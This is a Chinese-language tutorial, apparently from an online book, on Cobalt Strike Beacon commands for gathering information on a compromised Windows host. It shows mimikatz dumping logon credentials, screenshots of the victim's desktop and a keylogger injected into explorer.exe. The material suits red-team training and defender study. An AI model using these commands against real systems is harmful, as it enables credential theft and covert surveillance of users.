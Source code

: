 # Cobalt Strike Beacon 基础信息搜集

> 原文：[http://book.iwonder.run/Tools/Cobalt Strike/30.html](http://book.iwonder.run/Tools/Cobalt Strike/30.html)

```
getuid 

查看当前 shell 权限,如下可以看到,当前是以系统内建的 administrator 用户权限在操作 
```

```
ps 

查看当前系统进程列表 [ 默认它已经事先把 64 位和 32 进程区分清楚了,这也是为什么不去用系统自带的 tasklist 工具的原因,比如,后面某些功能就需要你明确指明目标进程是 32 还是 64 位的 ] 
```

![image](img/fa413a65b8639f0188b789677dd7c10e.png)

```
kill 3292 

杀掉指定 id 的进程,比如,杀掉这个记事本进程 
```

```
shell query user 

执行 win 系统的各种原生 cmd 命令,命令参数正常带上执行即可 
```

```
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" 

shell 也可以用来执行自己上传的一些 命令行程序,比如,mimikatz.exe 执行完之后它会把执行的结果再回显回来 
```

![image](img/c360b5fc2ffe364329e08ee5f68dcc18.png)

```
execute mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" "exit" 

跟 shell 功能有所不同,同样都是执行指定命令行程序,但 shell 会把执行结果回显回来,而 execute 则不会,至于到底执行成功没,还需要用其它方式来判断 
```

![image](img/b1d1cfeac06aea8fbd73004f73b330b2.png)

> 特别注意这个截屏功能,因为我们现在是在正常的 administrator 用户权限下操作的[标准用户环境],所以,通过 explorer.exe 就直接能截取到目标桌面,如果你当前是在 system 权限下则必须先把自己降权或切换到一个正常的正在线系统用户权限上,这样才能正常截到目标桌面

```
screenshot x64 2656 1

对用户桌面进行截屏 
```

![image](img/6ba6f6aef5b9537aada019e587f86762.png)

![image](img/edbe7ed3dcdca6ea9de0789a7a4966c0.png)

```
keylogger 2656 x64 

常规键盘记录,同样还是指定 explorer.exe 进程进行截获 
```

![image](img/0a643095842c1fe6c28efe2bbf20f2a6.png)

> 如下,我们看到中文显示乱码了,很正常,因为我们用的这个 CobaltStrike,几乎是原生的默认也没有调整编码,所以,不用太在意,后期等整个系列全部更新完,视情况也许会给大家一个调整好的用

![image](img/fe7aba80c409e20103e4500a249d41f1.png)

